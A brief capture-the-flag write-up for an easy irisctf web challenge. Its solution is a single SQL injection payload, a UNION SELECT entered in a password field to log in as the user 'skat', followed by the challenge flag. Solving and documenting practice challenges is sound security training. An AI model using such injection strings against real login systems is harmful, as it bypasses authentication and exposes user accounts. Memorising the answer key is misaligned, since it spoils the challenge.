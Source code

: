 # What's My Password?
[baby] Oh no! Skat forgot their password (again)!

# Solution
SQLi i password field
```
" UNION SELECT * FROM users WHERE username="skat
```

# Flag
`irisctf{my_p422W0RD_1S_SQl1}`

# Hashtags
#sqli #go #web